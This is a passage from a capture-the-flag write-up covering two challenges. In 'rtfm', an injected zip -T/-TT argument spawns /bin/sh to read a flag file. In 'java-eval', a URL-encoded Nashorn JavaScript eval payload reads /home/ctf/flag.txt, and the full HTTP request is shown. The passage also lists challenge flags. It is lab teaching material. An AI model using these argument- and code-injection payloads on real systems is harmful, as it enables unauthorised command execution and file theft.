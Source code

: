 ### Flag

`CTF{d0eba2a6600812a51a3d0a00ed43aef619574358ec62d20506daf92baf1d83ce}`

<a name="rtfm"></a>

## rtfm (315 pts, 38 solves) - Misc

Description:

```
Let me tell you this..... you really need to read the manual.
```

I read the manual and solved it :). The idea is that we can control an argument in the zip command, and using -T and -TT we can execute shell functions.

```
(base) ~/Desktop/ctf/from-memory nc  35.246.209.188 31718
-TDTT/bin/sh -c ./f* 2>&1
Zip me: updating: test_file (stored 0%)
./flag.txt: 1: Flag_Chaining_FTW: not found
./flag.txt: 3: CTF{baf0c514219ab318bc663c815a4f2b69e6b5767b398f07eebcc5b235b194f9be}: not found
test of test.zip FAILED

zip error: Zip file invalid, could not spawn unzip, or wrong unzip (original files unmodified)
```

The -D flag was added because we needed a way to tell zip to differentiate between T and TT flags.

### Flag

`CTF{baf0c514219ab318bc663c815a4f2b69e6b5767b398f07eebcc5b235b194f9be}`

<a name="java-eval"></a>

## java-eval (410 pts, 19 solves) - Web

Description:

```
Eval stuff everywhere. What is going on?
```

**Summary**
We can execute JavaScript in Java through command injection using '. The problem is that it's not standard JavaScript; it uses the Nashorn engine. This means we can't use typical Node.js gadgets to get a shell or read files. Fortunately, there's a StackOverflow answer for this:
[https://stackoverflow.com/questions/67668010/in-the-nashorn-javascript-engine-how-can-i-read-a-file-from-the-file-system](https://stackoverflow.com/questions/67668010/in-the-nashorn-javascript-engine-how-can-i-read-a-file-from-the-file-system)

**Proof of Solution**
```
GET /index.jsp?eval='%2ba();function+a()%7bvar+pathObj=java.nio.file.Paths.get('/home/ctf/flag.txt');var+bytesObj=java.nio.file.Files.readAllBytes(pathObj);var+bytes=Java.from(bytesObj);return+String.fromCharCode.apply(null,bytes);%7d;// HTTP/1.1
Host: 34.89.210.219:32297
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9
Cookie: JSESSIONID=A725D8E8DD6739A0A15F460FADEB0CE7
Connection: close
```